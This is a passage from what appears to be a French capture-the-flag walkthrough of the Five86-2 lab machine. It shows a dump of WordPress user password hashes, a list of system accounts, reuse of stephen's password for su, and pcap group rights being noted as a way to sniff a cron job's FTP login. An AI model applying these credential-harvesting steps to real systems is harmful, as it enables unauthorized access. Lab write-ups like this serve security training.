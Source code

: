 Je peux en extraire plusieurs hashes mais tenter de les casser ne m'amène nul part.

```console
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+-----------------+
| ID | user_login | user_pass                          | user_nicename | user_email             | user_url | user_registered     | user_activation_key | user_status | display_name    |
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+-----------------+
|  1 | admin      | $P$BJQSBmO3Hj5SIDKzAkVX8wQYN6EJqx/ | admin         | blahblahblah@blah.blah |          | 2020-01-09 00:09:52 |                     |           0 | admin           |
|  2 | barney     | $P$Brk7T36qysdSksZmPyfdQCqpoaIqvN1 | barney        | barney@blah.blah       |          | 2020-01-09 00:11:36 |                     |           0 | Barney Sumner   |
|  4 | gillian    | $P$BJxWr8/nTjEC6IttflERKg2v.THUNA1 | gillian       | gillian@blah.blah      |          | 2020-01-09 00:13:03 |                     |           0 | Gillian Gilbert |
|  5 | peter      | $P$B3eHaQ66YFM6EwWB6y/Y3i/3ud1Kqp/ | peter         | peter@blah.blah        |          | 2020-01-09 00:13:53 |                     |           0 | Peter Hook      |
|  6 | stephen    | $P$BcQaPOdWmcAzREQh9rR2bmGBBz6qUO1 | stephen       | stephen@blah.blah      |          | 2020-01-09 00:39:17 |                     |           0 | Stephen Morris  |
+----+------------+------------------------------------+---------------+------------------------+----------+---------------------+---------------------+-------------+-----------------+
```

Sur le système, on trouve d'autres utilisateurs.

```
barney:x:1001:1001:Barney Sumner:/home/barney:/bin/bash
stephen:x:1002:1002:Stephen Morris:/home/stephen:/bin/bash
peter:x:1003:1003:Peter Hook:/home/peter:/bin/bash
gillian:x:1004:1004:Gillian Gilbert:/home/gillian:/bin/bash
richard:x:1005:1005:Richard Starkey:/home/richard:/bin/bash
paul:x:1006:1006:Paul McCartney:/home/paul:/bin/bash
john:x:1007:1007:John Lennon:/home/john:/bin/bash
george:x:1008:1008:George Harrison:/home/george:/bin/bash
```

Finalement en testant je découvre que le mot de passe de `stephen` fonctionne aussi pour la commande `su`.

L'utilisateur est membre du groupe `pcap` ce qui sonne comme une autorisation pour mettre le trafic réseau en écoute.

```console
stephen@five86-2:~$ id
uid=1002(stephen) gid=1002(stephen) groups=1002(stephen),1009(pcap)
```

D'ailleurs, coup de bol, si je regarde les process je vois clairement un script qui semble se connecter au serveur FTP.

```
root      2218  0.0  0.2   7748  2372 ?        S    16:48   0:00 /usr/sbin/CRON -f
paul      2219  0.0  0.0   2600   688 ?        Ss   16:48   0:00 /bin/sh -c /home/paul/ftp_upload.sh > /dev/null 2>&1
paul      2220  0.0  0.0   2600   752 ?        S    16:48   0:00 /bin/sh /home/paul/ftp_upload.sh
paul      2221  0.0  0.2   3224  2100 ?        S    16:48   0:00 ftp -n 172.18.0.10
1000      2222  0.0  0.7 133068  7732 pts/0    S+   16:48   0:00 proftpd: paul - 172.18.0.1: STOR file.txt
```
